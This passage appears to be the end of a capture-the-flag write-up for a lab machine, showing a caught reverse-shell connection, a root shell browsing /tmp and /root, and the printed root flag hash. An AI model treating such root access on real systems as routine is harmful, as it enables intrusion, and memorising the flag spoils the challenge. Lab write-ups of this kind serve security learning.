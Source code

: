 ```bash
connect to [10.10.16.3] from (UNKNOWN) [10.10.11.208] 35592
# ls
f
full-checkup.sh
snap-private-tmp
systemd-private-db88f2932a09492e8a045aee99a137bc-apache2.service-V1REUq
systemd-private-db88f2932a09492e8a045aee99a137bc-ModemManager.service-FPvDjx
systemd-private-db88f2932a09492e8a045aee99a137bc-systemd-logind.service-Q7yHxg
systemd-private-db88f2932a09492e8a045aee99a137bc-systemd-resolved.service-xVNwz1
systemd-private-db88f2932a09492e8a045aee99a137bc-systemd-timesyncd.service-tWB19h
vmware-root_787-4290625459
# cd /root
# ls
ecosystem.config.js
root.txt
scripts
snap
# cat root.txt
26b8ae6da611ba28b3b7fd2743e51ff3
```
***
The Root Flag is: 26b8ae6da611ba28b3b7fd2743e51ff3
***
![](/assets/images/Screenshot from 2024-08-06 06-02-20.png)
